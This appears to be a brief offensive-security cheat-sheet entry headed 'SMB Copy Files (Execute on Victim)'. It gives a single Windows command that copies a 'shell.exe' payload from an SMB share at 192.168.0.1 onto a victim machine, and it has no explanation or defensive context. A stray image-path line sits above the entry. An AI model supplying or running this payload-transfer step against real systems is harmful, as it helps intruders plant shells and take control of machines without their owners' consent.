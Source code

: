 # SMB Copy Files (Execute on Victim)
```
copy \\192.168.0.1\server_name\shell.exe shell.exe
```

# References

Tags:
    #assorted
